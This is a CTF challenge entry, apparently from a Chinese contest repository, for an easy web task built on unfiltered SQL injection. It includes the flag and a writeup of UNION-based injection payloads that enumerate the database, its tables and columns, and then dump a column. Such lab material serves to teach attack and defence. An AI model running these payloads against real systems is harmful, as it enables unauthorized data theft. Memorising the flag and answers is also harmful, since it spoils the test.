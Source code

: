 * 题目名称： saveSaofe1a_partA

* 题目类型： WEB

* 题目难度： 简单

* 出题人： Chimedal

* 考点：无过滤sql注入

* 描述：Saofe1a近期因思念离开的初恋，整天无精打采的。身为Saofe1a好兄弟的你得知后，决定帮他复合。经过一番思考，你决定先帮Saofe1a给小美选一个礼物，正当你对送什么感到一筹莫展的时候，你看到了Saofe1a手机里面的一个网址——高三一班同学录查询系统，或许里面能找到小美的hobbies……

* flag： XSCTF{Saofe1a_r3a11y_l0ve_xiaomei}

* Writeup：
```
该题只会回显一个查询，前面需要是-1

测试字段数
-1' union select 1,2,3,4;#

看数据库
-1' union select 1,2,3,database();#

看表
-1' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database();#

看字段名
-1' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='class3';#

看字段名对应的字段值
-1' union select 1,2,3,group_concat(hobbies) from class3;#
```

